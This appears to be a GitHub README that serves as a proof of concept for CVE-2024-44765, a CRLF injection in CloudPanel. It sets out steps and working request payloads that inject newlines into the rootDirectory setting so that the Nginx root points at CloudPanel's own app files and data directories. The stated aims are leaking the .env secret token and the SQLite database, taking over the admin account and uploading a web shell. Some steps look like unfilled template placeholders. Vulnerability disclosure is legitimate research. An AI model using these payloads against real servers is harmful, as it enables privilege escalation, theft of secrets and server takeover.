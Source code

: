 # Proof of Concept (PoC) for Cloudpanel [CRLF Injection / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:
    ```plaintext
    http://example.com/vulnerable_endpoint?param=
    ```
2. **Step 2**: Click manage and check Root Directory input:
    ```plaintext
    %0d%0aInjected-Header: InjectedValue
    ```
3. **Step 3**: Click save and intercept the request via burp suite:
    ```plaintext
    http://example.com/vulnerable_endpoint?param=value%0d%0aInjected-Header: InjectedValue
    ```
4.1 **Step 4**: Leaking sensitive data
    4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=pentest.my%0a%0droot%0a/home/clp/htdocs/app/files
        ```
    4.2 **Step 5**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=pentest.my%0a%0droot%0a/home/clp/htdocs/app/data
        ```
